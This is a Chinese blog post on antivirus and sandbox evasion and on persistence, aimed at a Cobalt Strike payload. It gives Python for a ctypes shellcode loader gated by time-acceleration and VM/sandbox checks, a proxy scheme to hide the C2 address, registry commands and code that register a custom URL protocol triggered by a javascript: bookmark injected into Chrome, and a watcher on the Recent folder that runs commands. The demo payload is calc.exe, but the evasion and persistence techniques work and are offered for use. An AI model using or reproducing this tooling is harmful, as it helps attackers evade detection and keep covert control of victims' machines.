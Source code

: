 ```yaml
---
title: 免杀小思路
published: 2025-02-25
description: '关于免杀与权限维持的思路'
image: 'https://haowallpaper.com/link/common/file/previewFileImg/15758358777205056'
tags: [免杀,开发]
category: ''
draft: false 
lang: ''
---
```


首先我们都知道，现在沙箱分析主要分为以下几步
- 行为检测
- 静态分析
- 动态分析
一般来说，动态分析会有时间加速，所以sleep(60)这样的免杀方法是不现实的，我们首先就是要检测他是否有时间加速。
# 1.动态(时间加速、沙箱/虚拟机检测)

先cs生成个payload，然后开始写代码
```python
import time
import ctypes

buf = b"\x90\x90\x90\x90xxxx" 

def check_time():
    start_time = time.time()
    time.sleep(5)
    end_time = time.time()
    elapsed_time = end_time - start_time
    if elapsed_time < 4.9:
        return False
    return True

def execute_shellcode(shellcode):
    shellcode_buffer = ctypes.create_string_buffer(shellcode)
    ctypes_buffer = ctypes.cast(shellcode_buffer, ctypes.CFUNCTYPE(ctypes.c_void_p))
    ctypes_buffer()

if __name__ == "__main__":
    if check_time():
        execute_shellcode(buf)
    else:
        print("检测到沙箱环境,不执行shellcode")
```
1. **check_time()**: 这个函数用于检测程序运行的时间。如果时间差小于预期值（4.9秒），则可能处于沙箱环境。
2. **execute_shellcode(shellcode)**: 这个函数用于执行传入的shellcode。使用`ctypes`库来分配内存并将shellcode注入到内存中执行。
也就是说原理就是检测是否有时间差
不过，有些沙箱没有时间加速，我们还是需要进行沙箱/虚拟机检测
```python
def is_vm_or_sandbox():
    return any(os.path.exists(path) for path in [
        "C:\\analysis\\sandbox.exe",
        "C:\\sandbox\\sandbox.exe",
    ]) or any(os.system(f"tasklist /FI \"IMAGENAME eq {proc}\" 2>nul | find /I \"{proc}\" >nul") == 0
              for proc in ["vmtoolsd.exe", "vboxservice.exe"]) or os.cpu_count() < 2
```
这个sandbox.exe就是查看它进程，cpu_count()是检测cpu数量，太少就可以`sys.exit(0)`了
对于用户名，我们可以通过`%USERNAME%`来获取
![](image-20250126153132979.png)
这样，我们得到了用户名，就可以判断用户名是否为沙箱的用户名，若是则退出

# 2.静态免杀

对于静态免杀，我们可以把shellcode、免杀文件等分开放，思维导图如下
![](image-20250126153601989.png)
这样，我们本地只留一个loader，其他都在公网上，但是如果被抓出来地址什么的，我们的远控就会被扒的底裤也不剩
我们这时候就可以设置一个代理，把我们的公网IP映射到127.0.0.1：
```python
import requests

proxy = {
    "http": "http://x.x.x.x:3333"
}
url = "http://127.0.0.1:3333" 
response = requests.get(url, proxies=proxy)
print(response.text)
```
这段代码留在loader
那么这样之后，我们的免杀就做到了这么几个功能：
1. 时间加速检测
2. 沙箱检测
3. 动态注入payload
4. 代理
# 3.权限维持

## 注册表配合书签

通常权限维持都是定时(比如10分钟)连接C2服务器，不过依然是一抓到IP就炸了
不过我们都知道，edge、chrome这样的主流浏览器，它的书签都可以解析js
![](image-20250126155402295.png)
![](image-20250126155435240.png)
这里我们就可以使用注册表实现rce了
```
reg add "HKEY_CLASSES_ROOT\knight" /ve /d "URL:MyCalc Protocol" /f
reg add "HKEY_CLASSES_ROOT\knight" /v "URL Protocol" /d "" /f
reg add "HKEY_CLASSES_ROOT\knight\rce" /f
reg add "HKEY_CLASSES_ROOT\knight\rce\rrr" /f
reg add "HKEY_CLASSES_ROOT\knight\rce\rrr\command" /ve /d "\"C:\\Windows\\System32\\calc.exe\"" /f
```
![](image-20250126160512428.png)
然后结合上面的书签，js打开knight://open
```
javascript:window.open('https://www.hdsec.cn/', '_blank'); setTimeout(function() { window.location.href = 'knight://open'; }, 1);
```
![](image-20250126161516586.png)
这样，我们就从一个书签开始，实现RCE
书签的路径自行百度，然后下面是增加书签的代码
```python
import json
import os

chrome_bookmarks_path = os.path.expanduser("~") + "/AppData/Local/Google/Chrome/User Data/Default/Bookmarks"
new_bookmark = {
    "name": "Open Baidu and RCE",
    "type": "url",
    "url": "javascript:window.open('https://www.hdsec.cn', '_blank'); setTimeout(function() { window.location.href = 'knight://open'; }, 1);"
}
with open(chrome_bookmarks_path, "r", encoding="utf-8") as file:
    bookmarks_data = json.load(file)
bookmarks_bar = None
for item in bookmarks_data["roots"]:
    if item == "bookmark_bar":
        bookmarks_bar = bookmarks_data["roots"][item]
        break
if bookmarks_bar:
    if "children" not in bookmarks_bar:
        bookmarks_bar["children"] = []
    bookmarks_bar["children"].append(new_bookmark)
with open(chrome_bookmarks_path, "w", encoding="utf-8") as file:
    json.dump(bookmarks_data, file, indent=4)
```
这样当他打开hdsec.cn的时候就会弹计算机
下面是添加注册表的代码
```python
import winreg

root_key = winreg.HKEY_CLASSES_ROOT
base_path = r"knight"
url_protocol_path = base_path
rce_path = base_path + r"\rce"
rrr_path = rce_path + r"\rrr"
command_path = rrr_path + r"\command"
key = winreg.CreateKey(root_key, base_path)
winreg.SetValue(key, "", winreg.REG_SZ, "URL:MyCalc Protocol")
winreg.CloseKey(key)
key = winreg.OpenKey(root_key, url_protocol_path, 0, winreg.KEY_WRITE)
winreg.SetValueEx(key, "URL Protocol", 0, winreg.REG_SZ, "")
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, rce_path)
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, rrr_path)
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, command_path)
winreg.SetValue(key, "", winreg.REG_SZ, r"C:\Windows\System32\calc.exe")
winreg.CloseKey(key)
```
或者我们远程调用并导入reg文件
```
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\knight]
@="URL:MyCalc Protocol"
"URL Protocol"=""

[HKEY_CLASSES_ROOT\knight\rce]

[HKEY_CLASSES_ROOT\knight\rce\rrr]

[HKEY_CLASSES_ROOT\knight\rce\rrr\command]
@="\"C:\\Windows\\System32\\calc.exe\""
```
之后像上面那样把公网代理到127.0.0.1或其他IP，从127.0.0.1下载reg

## 最近打开的项目

众所周知，我们每打开一个项目，就会出现x.lnk，这个是windows默认启用的(笔者因为美观原因关掉了)
![](image-20250126162246931.png)
这个x.lnk，路径是`C:\Users\administrator\AppData\Roaming\Microsoft\Windows\Recent\`
获取用户名的方法上面也有，就是%USERNAME%
那么我们就可以在免杀中写，持续监听这个目录，创建了文件就执行某命令，也就是说对文件有增删查改就执行某命令
```python
import os, time, subprocess
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler

RECENT_DIR = os.path.join("C:/Users", os.environ["USERNAME"], "AppData", "Roaming", "Microsoft", "Windows", "Recent")
observer = Observer()
observer.schedule(
    type("RecentHandler", (FileSystemEventHandler,), {"on_created": lambda self, event: subprocess.Popen("calc")})(),
    path=RECENT_DIR,
    recursive=False
)
observer.start()
try:
    while True: time.sleep(1)
except KeyboardInterrupt:
    observer.stop()
observer.join()
```
这个路径不仅限于recent，还可以换成别的，你要是愿意换成C D盘什么的也可以
